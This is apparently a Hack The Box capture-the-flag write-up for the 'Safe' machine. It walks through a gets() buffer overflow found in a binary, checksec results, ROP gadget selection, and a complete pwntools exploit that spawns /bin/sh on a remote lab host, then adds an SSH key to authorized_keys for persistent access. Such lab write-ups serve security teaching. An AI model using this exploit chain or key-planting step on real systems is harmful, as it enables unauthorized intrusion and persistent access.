







# 15 - Myapp


# Buffer overflow



Two inputs are sent, the first one didn't print *What do you want me to echo back?* We can conclude that the program breaks with high input size.

# Ghidra disassembly
```
undefined8 main(void)

{
  char buffer [112];
  
  system("/usr/bin/uptime");
  printf("\nWhat do you want me to echo back? ");
  gets(buffer);
  puts(buffer);
  return 0;
}
```

Gets is a dangerous function, it doesn't check the size because of that it keeps writing to the stack until it sees a newline or EOF.

It's a buffer overflow vulnerability. In order to exploit this vulnerability we need more information, let's run `checksec` on the binary first.


# Checksec



No stack canary but NX is enabled that means we can't execute code from the stack.

# ROP Chain

In order to get code execution we need a rop chain, because arbitrary code execution is not allowed from the stack. We can only execute instructions in the `code section`, this can be achieved by `jmp`ing to an area in the code section of the memory, executing and `ret`urning every few instructions.

We know that buffer is 112 bytes long.




From this debug output we can see our code breaks at the `ret` instruction, that's because the program cannot find the address RSP points to.

# Offset



121th byte overwrites the return address but right before the RSP **`8 bytes are stored in RBP`** that's good to know because we know a specific place to store things.

# Program flow



Before calling system it stores the command address in rdi. That means the first argument is passed with rdi register. 
```c
system("/usr/bin/uptime");
```

If we want to execute ```system("/bin/sh")``` we need to store the command in RDI.

# Test function
There is another function  named test. Ghidra fails to decompile it but it has relatively simple instructions to understand. The first 2 instructions are basically doing housekeeping


The important thing is that it pushes RBP  onto the stack and then stores the address into RDI in the third instruction `'MOV RDI, RSP'`. That actually happens to be what we need exactly , `'/bin/sh'` in RDI for code execution with `system` , the last instruction is `JMP R13` If we manage to put `system` address in R13 and jump to it we should get a shell.

# Gadgets

Stack should look like this so far

|    Stack    | Size |
| ----------- | ---- |
| Junk        | 112  |
| /bin/sh\x00 | 8    |

`/bin/sh` because it gets stored in rbp, `test` will take it to RDI in its 3rd instruction.
Strings have to be null terminated, null byte is appended because of that.


Before executing test we need to store the system address into R13 register somehow. `pop r13` is a good instruction to execute since we can also write to the space after the return address '/bin/sh'. What I want to do basically is this

|      Stack      | Size |
| --------------- | ---- |
| Junk            | 112  |
| /bin/sh\x00     | 8    |
| pop r13 address | 8    |
| system address  | 8    |


* Junk is for filling up the buffer
* `'/bin/sh'` is for the argument (remember the argument gets stored in RDI before `system` function call)
* pop r13 address is for jumping to an address to pop the system address into r13


ropsearch is a builtin feature to gdb-peda.  Let's find an address which performs `pop r13` and `ret` instructions.

```bash
gdb-peda$ ropsearch "pop r13"
Searching for ROP gadget: 'pop r13' in: binary ranges
0x00401206 : (b'415d415e415fc3')        pop r13; pop r14; pop r15; ret
```

These instructions do 2 more pop operations, we have to fill up 16 more bytes before placing `test`'s address next


|      Stack      | Size |
| --------------- | ---- |
| Junk            | 112  |
| /bin/sh\x00     | 8    |
| pop r13 address | 8    |
| system address  | 8    |
| Junk            | 16   |
| test's address  | 8    |

# exploit.py
```py
#!/usr/bin/env python3

from pwn import *

junk = ('A' * 112).encode()
shell = b'/bin/sh\x00'
system=p64(0x401040)
pop_r13 = p64(0x401206)
pop_junk = ("A"*16).encode()
test = p64(0x401152)
payload = junk + shell + pop_r13+system+pop_junk+test


s = remote('10.10.10.147', 1337)
s.sendline(payload)
s.interactive()
```


# Shell



# SSH
```bash
$ echo 'your rsa private key' > /home/user/.ssh/authorized_keys
```
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/safe]                                                                                                                                                    
└──╼ $ ssh -l user 10.10.10.147                                                                                                                                                               
The authenticity of host '10.10.10.147 (10.10.10.147)' can't be established.                                                                                                                  
ECDSA key fingerprint is SHA256:SLbYsnF/xaUQIxRufe8Ux6dZJ9+Jler9PTISUR90xkc.                                                                                                                  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                                                                                                      
Warning: Permanently added '10.10.10.147' (ECDSA) to the list of known hosts.                                                                                                                 
Linux safe 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1 (2019-04-12) x86_64                                                                                                                          
                                                                                                                                                                                              
The programs included with the Debian GNU/Linux system are free software;                                                                                                                     
the exact distribution terms for each program are described in the                                                                                                                            
individual files in /usr/share/doc/*/copyright.                                                                                                                                               
                                                                                                                                                                                              
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent                                                                                                                             
permitted by applicable law.                                                                                                                                                                  
user@safe:~$ 
```


